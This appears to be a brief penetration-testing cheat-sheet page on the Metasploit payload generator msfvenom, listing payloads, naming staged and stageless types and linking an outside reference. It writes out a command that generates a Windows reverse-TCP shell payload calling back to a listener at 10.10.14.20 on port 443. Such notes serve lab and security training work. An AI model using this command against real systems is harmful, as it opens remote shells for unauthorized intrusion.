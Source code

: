 # Exploitation Frameworks

## MFSVenom

```bash
msfvenom --l all | grep <Payload>
```

### Types of payload

* **Staged** payloads
* **Stageless** payloads

{% embed url="https://netsec.ws/?p=331" %}

#### Payload example

```bash
msfvenom -a x86 -p windows/shell_reverse_tcp LHOST=10.10.14.20 LPORT=443 -b '\x00\x0A\x0D' -f python -v payload
```
